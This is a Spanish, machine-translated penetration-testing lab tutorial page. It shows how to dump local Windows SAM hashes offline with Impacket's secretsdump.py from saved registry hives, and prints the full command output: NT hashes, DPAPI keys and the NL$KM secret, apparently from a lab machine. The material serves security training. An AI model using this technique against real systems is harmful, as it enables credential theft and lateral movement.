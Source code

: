 
# **Dumping Hashes con Secretsdump.py de Impacket**

Una herramienta increíblemente útil que podemos usar para volcar los hashes fuera de línea es`secretsdump.py`. Se puede encontrar un impacket en la mayoría de las distribuciones de pruebas de penetración modernas. Podemos verificarlo usando`locate`En un sistema basado en Linux:

### **Localización de secretsdump.py**

Atacando a Sam

```
xnoxos@htb[/htb]$ locate secretsdump
```

Usar secretsdump.py es un proceso simple. Todo lo que debemos hacer es ejecutar secretsdump.py usando python, luego especificar cada archivo de colmena que recuperamos del host de destino.

### **Ejecutando secretsdump.py**

Atacando a Sam

```
xnoxos@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCALImpacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x4d8c7cff8a543fbf245a363d2ffce518
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:3dd5a5ef0ed25b8d6add8b2805cce06b:::
defaultuser0:1000:aad3b435b51404eeaad3b435b51404ee:683b72db605d064397cf503802b51857:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
sam:1002:aad3b435b51404eeaad3b435b51404ee:6f8c3f4d3869a10f3b4f0522f537fd33:::
rocky:1003:aad3b435b51404eeaad3b435b51404ee:184ecdda8cf1dd238d438c4aea4d560d:::
ITlocal:1004:aad3b435b51404eeaad3b435b51404ee:f7eb9c06fafaa23c4bcf22ba6781c1e2:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM
dpapi_machinekey:0xb1e1744d2dc4403f9fb0420d84c3299ba28f0643
dpapi_userkey:0x7995f82c5de363cc012ca6094d381671506fd362
[*] NL$KM  0000   D7 0A F4 B9 1E 3E 77 34  94 8F C4 7D AC 8F 60 69   .....>w4...}..`i
 0010   52 E1 2B 74 FF B2 08 5F  59 FE 32 19 D6 A7 2C F8   R.+t..._Y.2...,.
 0020   E2 A4 80 E0 0F 3D F8 48  44 98 87 E1 C9 CD 4B 28   .....=.HD.....K(
 0030   9B 7B 8B BF 3D 59 DB 90  D8 C7 AB 62 93 30 6A 42   .{..=Y.....b.0jB
NL$KM:d70af4b91e3e7734948fc47dac8f606952e12b74ffb2085f59fe3219d6a72cf8e2a480e00f3df848449887e1c9cd4b289b7b8bbf3d59db90d8c7ab6293306a42[*] Cleaning up...

```

Aquí vemos que SecretSdump descarta con éxito el`local`Sam Hashes y también habría arrojado la información de inicio de sesión del dominio en caché si el objetivo se uniera al dominio y hubiera almacenado en caché las credenciales presentes en la seguridad HKLM. Observe el primer paso que se ejecuta SecretSdump es apuntar a la`system bootkey`antes de proceder a volcar el`LOCAL SAM hashes`. No puede volcar esos hashes sin la tecla de arranque porque esa clave de arranque se usa para cifrar y descifrar la base de datos SAM, por lo que es importante que tengamos copias de las colmenas del registro que discutimos anteriormente en esta sección. Observe en la parte superior de la salida secretsdump.py:
